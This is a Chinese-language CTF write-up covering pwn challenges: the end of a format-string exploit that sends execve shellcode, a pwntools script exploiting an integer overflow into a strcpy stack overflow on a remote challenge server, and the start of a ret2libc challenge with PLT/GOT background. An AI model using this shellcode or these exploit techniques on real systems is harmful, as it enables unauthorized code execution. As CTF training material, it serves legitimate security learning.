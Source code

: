 ```python
# 64位程序格式化字符串漏洞中，格式化字符串的第六个偏移地址是调用printf的函数的栈上的第一个QWORD(64位)
# 而第二个QWORD即为V2的值
# 所以这里我们的偏移地址设为7，修改V2所指向的V3[0]
io.sendline(payload)
io.recvuntil('YOU SPELL\n')
shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
io.sendline(shellcode)
io.interactive()
```

## 0x0A int_overflow
> 题目描述: 菜鸡感觉这题似乎没有办法溢出，真的么?

查看安全机制  
![2020-06-06-16-06-33](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-16-06-33.png)    

拖入IDA查看反汇编代码    
跟近查看，进入到`chek_passwd`  
![2020-06-06-16-22-15](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-16-22-15.png)   
出现危险函数`strcpy`，存在栈溢出漏洞，但是要想触发漏洞，必须使得v3在3和8之间  
v3的值为s字符串的长度，根据题目提示想到整数溢出，利用整数溢出触发漏洞  

**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','46540')
io.recvuntil('choice:')
io.sendline('1')
io.recvuntil('username:\n')
io.sendline('aa')
io.recvuntil('passwd:\n')
# v3大小为8个字节，范围为0~255
payload = 'A'*0x18+p32(0x0804868B)+'A'*(259-0x18-4)
io.sendline(payload)
io.interactive()
```

## 0x0B level3
> 题目描述: libc!libc!这次没有system，你能帮菜鸡解决这个难题么?

题目提供的文件是一个压缩包，解压之后有两个文件，一个是可执行文件，还有一个动态链接库文件  
关于plt、got、动态链接之间的关系可以参考  
* [深入了解GOT,PLT和动态链接](https://www.cnblogs.com/pannengzhi/p/2018-04-09-about-got-plt.html)  
* [Linux动态链接中的PLT和GOT](https://blog.csdn.net/linyt/article/details/51893258)  

`libc_32.so.6`中存放的是程序运行时所用到的外部函数，通过PLT表和GOT表连接到主程序中   
